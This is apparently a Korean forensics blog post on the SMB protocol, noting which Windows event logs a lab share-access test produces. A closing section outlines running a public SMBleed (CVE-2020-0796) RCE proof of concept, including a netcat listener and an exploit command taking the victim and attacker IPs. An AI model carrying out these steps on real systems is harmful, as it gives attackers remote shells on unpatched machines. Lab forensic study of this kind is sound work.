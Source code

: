```yaml
---
title: SMB
date: 2023-05-01 00:53:00 +0900
categories: [Windows]
tags: [Windows] 
---
```


**SMB(Servr Message Block)란**   
    포트번호 : 137(UDP), 138(UDP), 139(TCP), 445(TCP)   
    적용 대상 : Windows Server 2008 ~   
    2017년도 SMB 원격코드실행 취약점(MS17-010)을 악용한 랜섬웨어 : WannaCry 

***SMB 테스트해보기***    

|IP|OS|설명|   
|---|---|---|   
|192.168.20.1|Windows 11|공격PC|   
|192.168.20.136|Windows 07|피해PC, B-pc|   


**1. 공유폴더를 통해 파일 수정, 파일 끌올, 파일 삭제 시**     
- Windows 탐색기에서 '\\B-pc' 입력하여 공유폴더에 연결할 때, 이벤트로그에 특정 이벤트는 기록되지 않았다. 이는 추가적인 설정이 필요한 바로 보인다.   
- 공유폴더에 접근하여 파일 수정, 파일 끌어올리기 시 아래와 같이 이벤트로그가 기록된다. 
- 추가적으로 MFT 내에서 파일 생성 이력이 확인되었다.
```shell
(Security.evtx) 4624 : 로그온 -> (Security.evtx) 4634 : 로그오프
```
{: .nolineno }
![(smb)_1.png](/assets/img/(smb)_1.png)
![(smb)_2.png](/assets/img/(smb)_2.png)
![(smb)_3.png](/assets/img/(smb)_3.png)



**2. 공유폴더를 통한 파일 실행 시**
- 







**SMBleed**
POC : https://github.com/ZecOps/CVE-2020-0796-RCE-POC
1. calc_target_offsets.bat 실행하여 대상 Windows 버전의 오프셋 결정
2. 기본 오프셋을 bat의 출력으로 바꿔 SMBleedingGhost.py 수정
3. netcat 실행 :: nc -lvnp [attacker_port]
4. SMBleedingGhost.py [victim_ip] [attacker_ip] [attacker_port]

